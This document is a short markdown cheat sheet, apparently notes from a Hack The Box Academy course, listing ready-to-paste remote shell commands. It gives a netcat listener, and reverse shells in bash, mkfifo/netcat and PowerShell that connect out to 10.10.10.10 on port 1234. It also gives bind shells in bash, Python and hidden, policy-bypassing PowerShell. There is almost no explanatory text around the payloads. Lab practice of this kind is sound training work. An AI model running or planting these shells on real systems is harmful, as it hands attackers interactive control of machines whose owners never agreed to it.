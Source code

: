 ### Reverse Shell : 

We start by starting a listener on the port of our choice:
```shell-session
nc -lvnp 1234
```

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Fundamental/Getting%20Started/Images/Netcat.png)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Bind Shell : 

Command to launch a bind shell :
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
